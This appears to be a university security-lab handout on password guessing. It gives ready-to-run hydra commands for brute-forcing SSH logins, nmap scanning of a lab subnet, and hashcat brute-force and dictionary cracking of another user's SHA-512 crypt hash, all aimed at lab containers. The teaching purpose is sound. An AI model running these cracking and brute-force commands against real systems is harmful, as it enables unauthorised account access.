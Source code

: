 # **Sigurnost računala i podataka (Lab 5)**

## Online and Offline Password Guessing Attacks

### Online Password Guessing

1. Open bash shell in WSL on your local Windows machine.
2. Check that you can reach the lab server by pinging it.
    
    ```bash
    ping a507-server.local
    ```
    
3. Install `nmap` application. In the bash shell execute the following commands.
    
    ```bash
    sudo apt-get update
    sudo apt-get install nmap
    
    # Test it
    nmap
    ```
    
    Try to understand what is `nmap` used for (Google it).
    
4. Next, run the following command.
    
    ```bash
    nmap -v 10.0.15.0/28
    ```
    
    Comment the results.
    
5. Open the following web page [http://a507-server.local/](http://a507-server.local/) and note down the **IP address** of a Docker container and **username** dedicated to you.
6. Try to open a remote shell on the dedicated machine using previous information. Use `ssh` client from your local shell.
    
    ```bash
    # ssh <username>@<your IP address>
    ssh cagalj_mario@10.0.15.1
    ```
    
7. Install `hydra` application. Get to know it. Now, try to perform an **online password guessing attack** against your account. You know the following information about the used password:
    - it is comprised of lowercase letters
    - its length between 4 and 6 characters
    
    **Q1:** Estimate the password space.
    
    ```bash
    # hydra -l <username> -x 4:6:a <your IP address> -V -t 1 ssh
    hydra -l cagalj_mario -x 4:6:a 10.0.15.1 -V -t 1 ssh
    ```
    
    **Q2:** Using the output produced by `hydra` try to estimate your effort, that is how long it would take, on average, before you succeed. You can also try to play with parameter `-t` (**IMPORTANT:** Test values 2, 3, 4 but please do not exaggerate to avoid crushing the server).
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
8. Get the dictionary from [http://a507-server.local:8080/](http://a507-server.local:8080/) as follows (please mind the **group ID**).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g1/
    ```
    
9. Finally, use `hydra` with the dictionary as shown below (IMPORTANT: use `dictionary_online.txt`).
    
    ```bash
    # hydra -l <username> -P dictionary/<group ID>/dictionary_online.txt 10.0.15.1 -V -t 4 ssh
    hydra -l cagalj_mario -P dictionary/g1/dictionary_online.txt 10.0.15.1 -V -t 4 ssh
    ```
    
10. Try to login to your machine using the discovered password. Locate password hashes, select one account (different from your own) and try to learn the corresponding password using **offline password guessing** attack as outlined in the sequel.

### Offline Password Guessing

1. For this task, use `hashcat` tool. Install it on your local machine as follows.
    
    ```bash
    sudo apt-get install hashcat
    
    # Test it
    hashcat
    ```
    
2. Save the password hash obtained in the previous task into a file. To make this step somewhat easier, open the present folder in Visual Studio Code by running the following command.
    
    ```bash
    code .
    ```
    
3. Start offline guessing attack by executing the following command. As in the previous task you know the following about the password:
    - it is comprised of lowercase letters
    - its length is exactly 6 characters
    
    ```bash
    # hashcat --force -m 1800 -a 3 <password_hash_file> ?l?l?l?l?l?l --status --status-timer 10
    hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
    ```
    
    **Q1:** Estimate the password space.
    
    **Q2:** Using the output produced by `hashcat` try to estimate your effort, that is how long it would take, on average, before you succeed.
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
4. If the attack from the previous step is not feasible approach, try a dictionary-based guessing attack (**IMPORTANT:** use `dictionary_offline.txt`). 
    
    As before you can get the dictionary by executing the following in the local (WSL) bash shell (in the same directory where you stored the password hash file).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g1/
    ```
    
    Now start `hashcat` using the following command.
    
    ```bash
    # hashcat --force -m 1800 -a 0 <password_hash_file> <dictionary_file> --status --status-timer 10
    hashcat --force -m 1800 -a 0 hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10
    ```
    
5. Test validity of the cracked password by logging into the remote machine as follows.
    
    ```bash
    # ssh <username>@<your IP address>
    ssh jean_doe@10.0.15.1
    ```